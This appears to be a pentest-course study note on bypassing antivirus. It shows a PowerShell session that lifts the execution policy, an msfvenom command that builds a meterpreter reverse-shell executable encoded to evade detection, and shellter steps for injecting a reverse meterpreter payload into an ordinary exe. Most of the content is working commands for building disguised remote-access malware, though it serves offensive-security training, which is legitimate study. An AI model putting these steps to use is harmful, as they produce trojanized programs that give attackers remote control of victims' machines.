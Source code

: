# Basic

+ [sushan747 - bypassing antivirus](https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing_antivirus.html)
+ [hacktricks - bypass av](https://book.hacktricks.xyz/windows/av-bypass)

**official course**
17.3  outside of the scope of this module.
p494
powershell executionpolicy error

```
At line:1 char:1
+ .\av_test.ps1
+ ~~~~~~~~~~~~~
+ CategoryInfo : SecurityError: (:) [], PSSecurityException
+ FullyQualifiedErrorId : UnauthorizedAccess

C:\Users\offsec\Desktop> powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined
PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```

# Encoding
+ encode the payload
+ msfvenom -e
```bash
msfvenom -l encoders

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

# Embed in non-malicious file

## shellter 

```
sudo apt install shellter
sudo apt install wine 
//wine 安装 i386
dpkg --add-architecture i386 && apt-get update && apt-get install wine32

shellter
// injection  https://www.cnblogs.com/hkleak/p/12912706.html?ivk_sa=1024320u
automode
set exe file
injection 
set tcp_reverse meterpreter
set host and port
```
